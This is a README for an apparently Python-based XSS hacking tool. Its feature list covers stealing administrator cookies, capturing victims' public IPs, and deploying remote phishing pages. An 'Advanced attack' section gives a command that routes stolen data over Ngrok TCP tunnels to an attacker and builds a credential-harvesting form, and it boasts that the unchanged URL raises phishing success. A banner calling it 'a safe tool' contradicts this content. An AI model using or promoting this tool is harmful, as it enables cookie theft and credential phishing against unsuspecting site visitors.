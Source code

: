   <div align="center">
 <img src="https://readme-typing-svg.herokuapp.com/?lines=This_is_a_safe_tool_You_can_use_it_safely.;---@Мартин.&font=Roboto" />
 <p align="center">
 <img title="MDOG_GGB" src='https://img.shields.io/badge/MDOG_GGB-3.6.4-brightgreen.svg' />
 <img title="MDOG_GGB" src='https://img.shields.io/badge/XSS-Tool'/>
 <img title="MDOG_GGB" src='https://img.shields.io/badge/Python-3.9-yellow.svg' />
  <img title="MDOG_GGB" src='https://img.shields.io/badge/HackerTool-x' />
 <img title="MDOG_GGB" src='https://img.shields.io/static/v1?label=Author&message=@Martin&color=red'/>
 <img title="MDOG_GGB" src='https://img.shields.io/badge/-Linux-F16061?logo=linux&logoColor=000'/>
 </p>
  
  <a href="https://www.murphysec.com/accept?code=7851aba9e54808485ea75df92e7a14bf&type=1&from=2&t=2" alt="Security Status"><img src="https://www.murphysec.com/platform3/v3/badge/1613745874211995648.svg?t=1" /></a>
  
  <img height="137px" src="https://github-readme-stats.vercel.app/api?username=MartinXMax&hide_title=true&hide_border=true&show_icons=trueline_height=21&text_color=000&icon_color=000&bg_color=0,ea6161,ffc64d,fffc4d,52fa5a&theme=graywhite" />
  
   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>Obtain the victim's public IP address(Update logging)</th>
  </tr>
  <tr>
    <th>Get administrator cookies(Update logging)</th>
  </tr>
  <tr>
    <th>Page Redirection(Update logging)</th>
  </tr>
  <tr>
    <th>Host data sharing(Update logging)</th>
  </tr>

  <tr>
    <th>DingTalk data sharing</th>
  </tr>
  <tr>
    <th>Remote phishing page deployment(Update logging)</th>
  </tr>
 </table>
</div>

## usage method
  * View help information

      ```#python3 MDOG.py -h```

  ![图片名称](./Demo_image/MG1.png)  

# Advanced attack
* Cookie theft (There are no cookies here) and remote deployment of phishing pages

1.Target Web

  ![图片名称](./Demo_image/MG2.png) 

2.Fill in parameters for remote deployment phishing page

(Linux will act as the shared data party, and win will act as the shared data party and push the data)

```python3 %s -t -rbtcp (Ngrok TCP Tunnel)  -rwtcp (Ngrok TCP Tunnel) -rs -wf fs.html -table -button BT -user UA -pass PA```

![图片名称](./Demo_image/MG3.png) 

3.Inject Code

![图片名称](./Demo_image/MG4.png) 

4.When anyone visits this page, the cookies and public IP will be disclosed

Win

![图片名称](./Demo_image/MG5.png) 

Linux

![图片名称](./Demo_image/MG6.png) 

First, we will get the basic information, and then wait for the victim to enter the account password, because the URL of the other party has not changed, which can greatly improve the probability of successful phishing

![图片名称](./Demo_image/MG7.png) 


